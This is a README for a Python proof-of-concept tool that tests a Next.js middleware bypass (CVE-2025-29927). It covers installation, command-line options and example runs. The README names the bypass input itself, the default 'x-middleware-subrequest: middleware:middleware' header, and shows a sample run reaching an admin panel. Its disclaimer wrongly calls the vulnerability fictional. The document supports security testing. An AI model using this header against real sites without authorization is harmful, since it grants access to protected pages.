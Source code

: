 # PoC for Next.js Middleware Bypass (CVE-2025-29927 - Fictional)
> **⚠️ Important Disclaimer**
>
> This tool is a Proof-of-Concept (PoC) for a **fictional vulnerability (CVE-2025-29927)**. It is intended for educational purposes, security research, and as a professional template for developing security tools. **The author is not responsible for any misuse or damage caused by this script. Use only in controlled and authorized environments.**

## About The Project

This script automates the process of sending a specially crafted HTTP request to a Next.js application to test if protected routes can be accessed by bypassing middleware security checks. It is built to be robust, easy to use, and highly informative.

### Features

  - ✨ **Colored & Verbose Output:** Clear, color-coded output for immediate identification of success or failure. A verbose mode (`-v`) provides detailed debugging information.
  - 📦 **Class-based & Clean Code:** Written using a clean, object-oriented structure for better readability and maintainability.
  - proxies: **Full Proxy Support:** Route your traffic through a proxy like Burp Suite or ZAP for inspection and debugging using the `--proxy` flag.
  - 🍪 **Session Management:** Uses a `requests.Session` object for efficient connection handling and automatic cookie management.
  - 🚦 **Intelligent Redirect Handling:** The script does not follow redirects by default, allowing it to correctly identify when a bypass fails and results in a redirection.
  - 🛠️ **Customizable:** Allows for custom User-Agents and custom header values to adapt to different testing scenarios.

## Getting Started

Follow these instructions to get a copy of the project up and running on your local machine for testing and research purposes.

### Prerequisites

  - Python 3.7 or higher
  - `pip` (Python package installer)

### Installation

1.  **Clone the repository:**
    ```sh
    git clone https://github.com/your-username/your-repository-name.git
    ```
2.  **Navigate to the project directory:**
    ```sh
    cd your-repository-name
    ```
3.  **Install the required packages:**
    The only dependency is the `requests` library.
    ```sh
    pip install requests
    ```

## Usage

The script is straightforward to run from the command line.

### Help Menu

To see all available options, use the `-h` or `--help` flag.

```sh
python poc.py -h
```

```
usage: poc.py [-h] [-p PATH] [-s {http,https}] [--header HEADER] [-ua USER_AGENT] [--proxy PROXY] [-v] host

A professional PoC template to test for Next.js middleware bypass.

positional arguments:
  host                  Target host and port (e.g., localhost:3000)

optional arguments:
  -h, --help            show this help message and exit
  -p PATH, --path PATH  Protected route path to access (default: /admin)
  -s {http,https}, --scheme {http,https}
                        Protocol to use (http or https) (default: http)
  --header HEADER       Value for the x-middleware-subrequest header (default: middleware:middleware)
  -ua USER_AGENT, --user-agent USER_AGENT
                        Custom User-Agent for the request (default: Mozilla/5.0)
  --proxy PROXY         Proxy to use for requests (e.g., http://127.0.0.1:8080)
  -v, --verbose         Enable verbose debug output
```

### Examples

1.  **Basic Test:**
    Run a simple test against a local server on port 3000, trying to access the default `/admin` path.

    ```sh
    python poc.py localhost:3000
    ```

2.  **Testing a Specific Path over HTTPS:**
    Test a production-like environment using `https` and targeting a `/dashboard` route.

    ```sh
    python poc.py www.example.com -s https -p /dashboard
    ```

3.  **Advanced Test with Proxy and Verbose Output:**
    This is useful for debugging. Route traffic through Burp Suite running on `http://127.0.0.1:8080` and print all debug information.

    ```sh
    python poc.py internal-app:8080 -v --proxy http://127.0.0.1:8080
    ```

### Example of a Successful Run

If the bypass is successful, the output will look like this:

```
[... Banner ...]

[*] Target URL: http://localhost:3000/admin
[+] SUCCESS: Middleware bypassed! Access granted.

--- Response Snippet ---
<!DOCTYPE html><html><head><meta charSet="utf-8"/><meta name="viewport" 
content="width=device-width"/><title>Admin Panel</title>...
------------------------
```

## License

Distributed under the MIT License. See `LICENSE.md` for more information.
